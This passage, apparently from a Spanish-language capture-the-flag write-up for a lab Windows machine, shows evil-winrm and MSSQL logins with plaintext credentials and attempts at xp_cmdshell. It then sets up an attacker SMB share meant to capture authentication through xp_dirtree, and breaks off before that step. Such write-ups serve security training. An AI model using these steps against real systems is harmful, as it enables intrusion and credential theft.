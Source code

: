 Aqui ya sabemos que la credencial es valida

### Conexion con evil-winrm usuario reporting {-}

Como tenemos credenciales y que sabemos que son validas, intentamos conectarnos con **Evil-WinRM**.

```bash
evil-winrm -i 10.10.10.125 -u 'reporting' -p 'PcwTW1HRwryjc'
```

Aqui no funciona.

### Conexion al servicio MSSQL usuario reporting {-}

```bash
/usr/local/bin/mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth
password: PcwTW1HRwryjc$c6

SQL> 
```

Con MSSQL hay un comando que se llama 
```bash
 xp_cmdshell 
```
 que nos permite enviar comandos a nivel de sistema

```bash
xp_cmdshell "whoami"
#Output
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied
```

Aqui el truquillo seria de configurar la posibilidad al usuario de ejecutar comandos avanzados

```bash
sp_configure "show advanced", 1
#Output
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action
```

Como aqui vemos que el usuario reporting no tiene derechos de lanzar comandos o modificar las configuraciones, lo que vamos a intentar
es entablar una conexion a nivel de red que el proprio usuario reporting no puede hacer porque es usuario local. Hay un comando de
MSSQL llamado 
```bash
 xp_dirtree 
```
 que permite buscar ficheros en recursos compartidos

1. En la maquina de atacante, creamos un recurso compartido con smb

    ```bash
    impacket-smbserver smbFolder $(pwd) --smb2support
    ```

1. En el mssql lanzamos el comando
